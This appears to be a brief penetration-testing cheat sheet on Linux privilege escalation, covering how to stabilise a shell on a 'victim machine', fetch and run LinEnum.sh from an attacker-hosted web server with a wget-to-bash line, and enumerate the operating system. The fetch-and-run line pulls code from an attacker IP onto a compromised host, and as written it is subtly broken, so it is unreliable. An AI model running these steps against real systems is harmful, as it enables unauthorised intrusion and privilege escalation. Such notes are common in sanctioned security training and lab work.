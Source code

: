 Linux Privilege Escalation
-------------------------- 

  Fixing a Shell <br>
  Mirror the victims machine with your kali terminal window <br>
  
  $
  stty -a  <br>
  stty raw -echo <br>
  fg <br>
  stty rows <number> columns <number> <br>
  reset <br>
  export TERM=screen <br>
  export SHELL=bash <br>
  
  Run Linux Exploit Suggester or LinEnum.sh <br>
  
  Victim Machine <br>
  wget http://10.x.x.x:1234/LinEnum.sh | Bash
  Attacker Machine <br>
  python -m SimpleHTTPServer 1234
  
  Poke at Shell
  Operating System <br>
  $ 
  id
  uname -a 
  cat /etc/issue
  cat /etc/*-release
  


